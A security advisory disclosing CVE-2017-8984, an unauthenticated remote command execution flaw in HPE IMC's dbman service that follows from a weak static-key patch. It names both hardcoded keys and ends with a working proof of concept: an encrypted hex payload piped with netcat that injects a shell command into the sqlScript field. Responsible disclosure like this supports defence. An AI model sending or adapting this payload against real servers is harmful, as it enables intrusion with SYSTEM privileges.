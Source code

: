 # HPE IMC dbman Unauthenticated Remote Code Execution (CVE-2017-8984)

October 6, 2017

## Advisory

https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03811en_us

## Affected Vendor:

Hewlett Packard Enterprise

## Affected Components:

dbman in HPE IMC version 7.3 E0506P03

## Vulnerability Details:

In June 2017, I reported a vulnerability in HPE IMC that allowed an attacker to bypass the patch for multiple 
vulnerabilities in dbman. This vulnerability was assigned CVE-2017-8958 and its security bulletin can be found here:

http://h20565.www2.hpe.com/hpsc/doc/public/display?docLocale=en_US&docId=emr_na-hpesbhf03786en_us

To summarize the previous report, there were multiple vulnerabilities disclosed in dbman that included 
command injection, arbitrary file write, and arbitrary file deletion. Their security bulletins can be found here:

https://h20564.www2.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03745en_us (CVE-2017-5816, CVE-2017-5817, CVE-2017-5818, CVE-2017-5819)
https://h20564.www2.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03746en_us (CVE-2017-5820, CVE-2017-5821, CVE-2017-5822, CVE-2017-5823)
https://h20565.www2.hpe.com/hpsc/doc/public/display?docId=hpesbhf03764en_us (CVE-2017-8954, CVE-2017-8955, CVE-2017-8957)

The initial patch attempted to fix the problem by encrypting the ASN.1 encoded messages using a static key derived
from the string "liuan814". Then when the service received a message, it decrypted it using the same static key. An
attacker could bypass this protection by emulating the encryption done by dbman and encrypting their malicious payload.
Since a static key is used for this encryption scheme, the encrypted malicious payload would be successfully
decrypted by all installations of IMC.

The latest patch for CVE-2017-8958 attempts to fix the problem by using a different static key, derived from the
string "liubn825". This does not fix the problem. Setting aside the similarities of the old key and the new
key, a different static key is an insufficient fix for this problem. I must emphasize that retrieving a static key
is trivial for an attacker and can be done with a common utility like Process Explorer, which can list the strings 
contained in a program. To reiterate, an attacker just needs to encrypt their malicious payload once and then they 
will be able to exploit any IMC server running the latest, fully patched version. Thus the protection put in place
is insufficient and all of the aforementioned dbman commands are vulnerable.

The impact of the vulnerability is remote, unauthenticated command execution, arbitrary file write, and arbitrary 
file deletion as SYSTEM or root.

## Remediation:

An authentication mechanism must be implemented to protect the dbman service. A static key is insufficient and a 
key unique to each installation must be securely negotiated before the dbman service accepts any commands. 
Furthermore, each individual dbman vulnerability must by fixed by targeting the root cause - lack of input validation. 

## Proof of Concept:

A proof-of-concept has been provided to demonstrate the impact of the vulnerability.
To run it, first set the IMC_SERVER environment variable to the IP address of a running and fully patched 
IMC server installed on Windows (version 7.3 E0506P03):
```
export IMC_SERVER=<IP_ADDRESS>
```
Then run the following to exploit the BackupZipFile command (opcode 10004/0x2714):
```
echo '00002714000000b8be1c461adda3576caff83c299f78f9c1685a33b47e444b644afa7289a0d2a3a3f61b02bf1dc01332db19f3121b725583874ba365e19d7a90625d8657a6db97cae6ff959b8553fba605661d76d0cc03b1c166d64d9a0f3d0b842163a9c79230a71e1955c28033b15a39b02afe6e0942865f4773b7af613dbca6aa36877f3b7d79a52aa258bd9d9a87b74307ec81a3ee3601209a0f5da7eccac2655d721064f90235bf539c8bba68eb16800309ba15be32efc962f2c10d80e7' | xxd -r -p | nc $IMC_SERVER 2810
```
Result: 
  - The file "proof_of_concept" appears in the root directory of the C drive with the contents "test-BackupZipFile"
  - Command injected: "echo test-BackupZipFile >> C:\proof_of_concept & " (in sqlScript field)
  - Command executed: "cmd.exe /c echo test-BackupZipFile >> C:\proof_of_concept & "test3" test1 test7 test5 >"C:\Program Files\iMC\dbman\bin\dbop.sql.log" 2>&1"
